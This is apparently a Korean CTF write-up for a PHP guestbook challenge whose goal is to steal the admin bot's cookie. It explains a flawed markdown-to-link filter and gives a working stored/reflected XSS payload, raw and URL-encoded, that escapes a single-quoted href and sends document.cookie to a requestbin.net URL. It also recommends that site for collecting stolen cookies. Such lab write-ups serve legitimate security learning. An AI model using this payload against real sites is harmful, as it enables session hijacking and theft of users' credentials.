


# Guest book

php로 개발 중인 방명록 서비스이다.   
글을 쓰는 기능과, 오류가 발생하는 주소를 관리자가 확인할 수 있도록 하는 Report기능이 존재한다.   
관리자의 쿠키를 획득해야한다.   
<br/>

```
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  return $content;
}
?>
```
소스코드를 보면 get 방식으로 인자를 전달하고, 전달받은 값을 html entity 인코딩 한다.   
이후 [ ]안에 있는 값은 a태그의 text value 위치로, ( ) 안에 있는 값은 a 태그의 href 속성 값으로 대입된다.   
<br/>

## 웹 사이트 구조   
* GuestBook.php   

   
문자열을 입력하면 그대로 출력해준다.   
만약 [text](링크 url) 형태로 작성할 경우, a 태그로 변경해준다.   
<br/>

* Report.php

   
오류가 발생하는 페이지를 Report 하는 서비스가 구현되어있다.   
Report 시, admin 봇이 페이지를 조회한다.   
<br/>


## Exploit

a 태그 입력되는 부분에서 싱글쿼터(')를 이용하여 싱글쿼터 Escape를 시도할 수 있다.   
```
[test](' autofocus onfocus='location.href="http://requestbin.net/r/6mfow8d9?"+document.cookie' id=')
```
```
GuestBook.php?content=%5Btest%5D(%27%20autofocus%20onfocus%3D%27location.href%3D%22http%3A%2F%2Frequestbin.net%2Fr%2Fa8nl2frs%3F%22%2Bdocument.cookie%27%20id%3D%27)
```
<br/>

Cookie를 받을 내 서버가 없거나 아파치로 사용하기 번거로울 때 사용하면 좋은 사이트가 있다.   
### https://requestbin.net/
